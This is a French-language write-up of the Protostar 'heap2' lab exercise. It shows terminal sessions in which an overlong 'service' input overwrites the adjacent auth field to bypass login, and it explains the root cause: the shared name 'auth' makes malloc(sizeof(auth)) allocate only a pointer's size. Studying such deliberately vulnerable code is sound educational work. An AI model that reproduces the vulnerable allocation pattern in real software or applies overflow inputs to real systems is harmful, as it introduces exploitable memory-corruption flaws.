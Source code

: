 ```bash
$ ./heap2
[ auth = (nil), service = (nil) ]
auth test
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
```

Ici on voit que seulement 16 octets séparent les deux buffers, on peut donc facilement écraser l'offset +32.

Mais en réalité on n'a même pas besoin de le libérer vu que le premier buffer ne fait que 4 octets :

```bash
$ ./heap2
[ auth = (nil), service = (nil) ]
auth test
[ auth = 0x804c008, service = (nil) ]
service aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
```

On peut lire le code source du binaire [ici](https://exploit.education/protostar/heap-two/) et comme l'explique [LiveOverflow](https://www.youtube.com/watch?v=ZHghwsTRyzQ) il est causé par le fait que le code source nomme une `struct` et une variable avec le même nom :

```c
struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
```

du coup lors de l'appel à `malloc` suivant il réserve l'espace pour juste un pointeur au lieu de réserver la place pour un entier et une chaine de 32 caractères :

```c
    if(strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(auth));
      memset(auth, 0, sizeof(auth));
      if(strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
```
